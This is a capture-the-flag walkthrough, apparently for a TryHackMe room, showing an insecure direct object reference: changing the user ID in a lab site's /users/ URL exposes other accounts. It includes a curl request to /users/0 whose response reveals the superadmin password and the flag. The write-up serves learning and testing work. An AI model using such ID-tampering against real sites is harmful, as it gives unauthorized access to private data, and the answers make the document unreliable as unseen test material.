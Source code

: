 In this I am going to show you how a lot of systems don't even have proper authentication and their system is just left open for anyone to exploit it.

A lot of time on websites we see that when we register a user and login with our credentials we are given a certain id which either is completely a number or ends with a number. Most of the time developers secures their application but sometime in some places, it could happen that just by changing that number we are able to see some hidden or private data.

To test this go to port **7777**. On that just create an account. Once the account is created visit your **Private Space**.

![](https://imgur.com/RzRzvpx)

As you can see in the image above the URL have **/users/1**. Try to change that value to 2 and we will get access to the admin account

![](https://i.imgur.com/TAkXZ4b.png)

The chance of finding this kind of vulnerability is very low but it could be a very serious bug if you get lucky and found something like this.

1. Find the way to get into superadmin ad

`No answer needed`

2. What is the password for superadmin account?

```
bibo318@parrot:~/CTFs/tryhackme/Authenticate$ curl http://10.10.7.33:7777/users/0
<!DOCTYPE html>
<html>
<head>

<meta charset="utf-8">
<meta name="viewport" content="width=device-width, initial-scale=1">
<title>No Auth</title>

<link href="/static/css/bootstrap.min.css" rel="stylesheet">
<link href="/static/css/styles.css" rel="stylesheet">

</head>

<body>


<div class="row">
        <div class="col-lg-7 col-sm-offset-2">
                <div class="panel panel-default">
                        <div class="panel-heading">Hello superadmin!</div>
                        <div class="panel-body">
                                <div class="col-md-6">
                                        <form method="post" action="/home" enctype="multipart/form-data">
                                                        <div class="form-group">
                                                        <p><h3>Your password: </h3>abcd1234</p>
                                                        <p><h3>Your secret data: </h3>Here&#39;s your flag: 72102933396288983011</p>
                                        </div>
                                </div>
                                </form>

                        </div>
                </div>
        </div><!-- /.col-->
</div><!-- /.row -->


```